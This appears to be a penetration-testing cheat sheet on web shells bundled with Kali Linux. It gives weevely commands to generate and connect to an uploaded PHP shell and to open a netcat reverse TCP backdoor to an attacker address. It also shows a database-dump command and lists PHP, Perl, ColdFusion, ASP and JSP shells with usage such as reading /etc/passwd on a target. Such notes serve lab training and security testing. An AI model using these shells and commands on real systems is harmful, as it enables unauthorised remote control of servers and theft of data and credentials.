 # Web Shells

The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

## weevely payloads

generate:

```text
weevely generate [password] [file name].php
```

connect:

```text
weevely http://192.168.56.102/dvwa/hackable/uploads/shell.php [password]
```

​run a reverse tcp backdoor from weevely shell:

```text
backdoor_reversetcp -vector netcat 192.168.56.1 6969
```

dump sql database with weevely:

```text
sql_dump -vector mysqldump_sh -host localhost -lpath /root/dvwa-data.txt db name] [user] [passwd]
```

## Kali PHP Web Shells

Kali PHP reverse shells and command shells:



| Command | Description |
| :--- | :--- |
| /usr/share/webshells/php/ php-reverse-shell.php | Pen Test Monkey - PHP Reverse Shell |
| /usr/share/webshells/ php/php-findsock-shell.php /usr/share/webshells/ php/findsock.c | Pen Test Monkey, Findsock Shell. Build gcc -o findsock findsock.c \(be mindfull of the target servers architecture\), execute with netcat not a browser nc -v target 80 |
| /usr/share/webshells/ php/simple-backdoor.php | PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: http://target.com/simple- backdoor.php?cmd=cat+/etc/passwd |
| /usr/share/webshells/ php/php-backdoor.php | Larger PHP shell, with a text input box for command execution. |

{% hint style="info" %}
The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.
{% endhint %}

## Kali Perl Reverse Shell



 Kali perl reverse shell:  


| Command | Description |
| :--- | :--- |
| /usr/share/webshells/perl/ perl-reverse-shell.pl | Pen Test Monkey - Perl Reverse Shell |
| /usr/share/webshells/ perl/perlcmd.cgi | Pen Test Monkey, Perl Shell. Usage: http://target.com/perlcmd.cgi?cat /etc/passwd |

## Kali Cold Fusion Shell

  
Kali Coldfusion Shell:

| Command | Description |
| :--- | :--- |
| /usr/share/webshells/cfm/cfexec.cfm | Cold Fusion Shell - aka CFM Shell |

## Kali ASP Shell

  
Classic ASP Reverse Shell + CMD shells:

| Command | Description |
| :--- | :--- |
| /usr/share/webshells/asp/ | Kali ASP Shells |

## Kali ASPX Shells

  
ASP.NET reverse shells within Kali

| Command | Description |
| :--- | :--- |
| /usr/share/webshells/aspx/ | Kali ASPX Shells |

## Kali JSP Reverse Shell

  
Kali JSP Reverse Shell:

| Command | Description |
| :--- | :--- |
| /usr/share/webshells/jsp/jsp-reverse.jsp | Kali JSP Reverse Shell |











